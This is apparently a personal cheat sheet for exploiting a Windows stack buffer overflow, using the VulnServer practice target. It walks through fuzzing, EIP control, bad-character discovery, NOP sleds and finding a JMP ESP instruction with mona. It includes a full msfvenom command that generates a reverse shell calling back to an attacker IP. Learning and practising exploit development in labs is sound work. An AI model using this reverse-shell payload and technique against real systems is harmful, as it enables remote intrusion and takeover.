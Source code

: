 1. Fuzz it and have it crash with all A's

2. Take control of EIP and one other register (ESP, EAX, etc.)

    A. Use `pattern_create $buffersize` and `pattern_offset $register_value`

3. Find badchars

    A. Use `!mona bytearray -b "\x00"` or use own Python algo (even better)

4. Generate the shellcode and insert it into the script
    
    A. Remember to generate the shellcode excluding the bad chars! Example:
    ```bash
    msfvenom -f python -b '\x00' -p windows/shell_reverse_tcp LHOST=192.168.40.47 LPORT=443 \
    EXITFUNC=thread > revshellwin.py`
    ```

    B. Remember to add at least 16 nops in front of the shellcode if you are jumping to location pointed by ESP. The reason for that is because the following instructions in the beginning of the decoder stub --
    ```nasm
    mov ebx, esp
    fcmove st0, st5
    fnstenv [ebx-0xC]
    ```
-- will overwrite the first 16 bytes the ESP register points to. The msfvenom-encoded shellcode does it to find its current EIP address. The decoder stub needs to know it in order to decode the main encoded payload. There are 2 ways to insert nops:
    * Manually, e.g. by inserting 16 * `\x90` bytes 
    * Automatically instructing msfvenom to prepend your shellcode with 16 random nops using `-n` flag.


5. Find space for the shellcode

    A. Try increasing buffer in necessary

6. Find instruction that will change the execution flow, e.g. JMP ESP / JMP EAX:

    A. Use nasm_shell to obtain intrcution opcodes
    
    B. First find module without ASLR and possible DEP protections: `!mona modules`
    
    C. Second find the instruction inside unprotected module, e.g. `!mona find -s "\xff\xe4" -m VulnServer.exe`
    
    D. Remember that the instruction address must not contain any bad chars!
    
    E. Remember to revert the address in your code! E.g. 0x65d11d71 becomes "\x71\x1d\xd1\x65"

    F. In more complex case when you control ESP but don't have enough space and some other register (e.g. EAX) 
       doesn't point exactly at the beginning of the controllable input you can write
    
    ```nasm    
    add eax, $offset
    jmp eax
    ```    
    
    instructions into ESP, and then put your shellcode into EAX+$offset

7. Test it.
